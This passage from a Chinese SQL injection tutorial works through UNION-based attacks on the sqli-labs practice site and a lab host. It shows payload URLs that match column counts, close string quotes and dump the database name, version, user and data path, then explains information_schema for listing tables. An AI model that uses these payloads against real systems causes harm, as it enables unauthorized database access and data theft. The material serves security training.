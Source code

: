 在 hackbar 提交

```
http://pu2lh35s.ia.aqlab.cn/?id=1 and 1=0 union select 1,2
```

> 查询字段必须相同

### 8.1.2 字符型

已知字段数量为 3 ，在 hackbar 提交

```
http://192.168.1.76/sqli-labs/Less-1/?id=-1' union select 1,2,3 --+
```

> 字符型的错误要注意加闭合符 `'1' union select 1,2,3`

### 8.2 爆库

在有回显的位置显示当前数据库名

```
http://192.168.1.76/sqli-labs/Less-1/?id=-1' union select 1,2,database() --+
```

也可以通过这种方式得到数据库的其它信息

| 操作                 | 描述         |
| -------------------- | ------------ |
| version()            | mysql 版本   |
| user()               | 数据库用户名 |
| database()           | 数据库名     |
| @@datadir            | 数据库路径   |
| @@version_compile_os | 系统版本     |

### 8.3 爆表

> 在 mysql 中有一个元数据库 `information_schema` 其中有
>
>  `tables` 数据表，存储了所有数据库和数据表的关系
>
> > 其中 `table_schema` 字段存储了所有数据库名
> >
> > 还有 `table_name` 字段存储了所有数据库对应的表名
>
>  `columns`  数据表，存储了所有的数据表和字段的关系
>
> > 其中 `column_schema`  字段存储了所有数据表名
> >
> > 还有 `column_name` 字段存储了所有数据表对应的字段名

获取当前数据库下的所有数据表
